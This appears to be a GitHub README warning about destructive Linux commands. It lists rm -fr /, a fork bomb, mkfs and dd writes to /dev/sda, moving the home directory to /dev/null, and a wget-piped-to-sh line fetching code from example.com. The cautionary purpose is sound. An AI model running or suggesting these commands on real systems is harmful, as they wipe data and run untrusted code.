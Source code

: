 Suicide Linux
============

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

## Warning
Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.


### Delete Everything!

`rm -fr /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


### Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.


### Format the Drive

`mkfs.ext4 /dev/sda1`

Do you remember `format C:` of the old DOS? this have the same result.

### Writes Directly to a Hard Drive

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


## Writes Junk Onto a Hard Drive

`dd if=/dev/random of=/dev/sda`


## The Black Hole

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


## stranger danger

`wget http://example.com/something -O – | sh –`


## You will be no more busy

`rm -f /usr/sbin/busybox`

## Learned Lessons
* excute a command with root privileges only if it is strictly necessary
* beware from rm -r commands
* never handle partions handles (such as /dev/sda1)
* never execute untrusted content


## References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)
